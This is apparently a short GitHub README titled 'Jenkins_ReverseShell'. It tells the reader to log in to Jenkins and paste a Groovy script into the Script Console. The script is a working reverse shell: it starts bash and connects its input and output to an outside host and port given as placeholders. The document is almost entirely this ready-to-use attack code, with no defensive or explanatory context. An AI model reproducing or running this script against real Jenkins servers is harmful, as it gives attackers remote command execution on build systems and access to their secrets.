 # Jenkins_ReverseShell
Jenkins dashboard reverse shell

1. Login Jenkins
2. Go to Manage Jenkins > Script Console and paste the code below and > run

3.
```
import java.io.*;
import java.net.*;

String host="CHANGE_THIS";
int port=CHANGE_THIS;
String cmd="bash";

Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();

while (!s.isClosed()) {
    while (pi.available() > 0) so.write(pi.read());
    while (pe.available() > 0) so.write(pe.read());
    while (si.available() > 0) po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e) {}
}
p.destroy();
s.close();
```
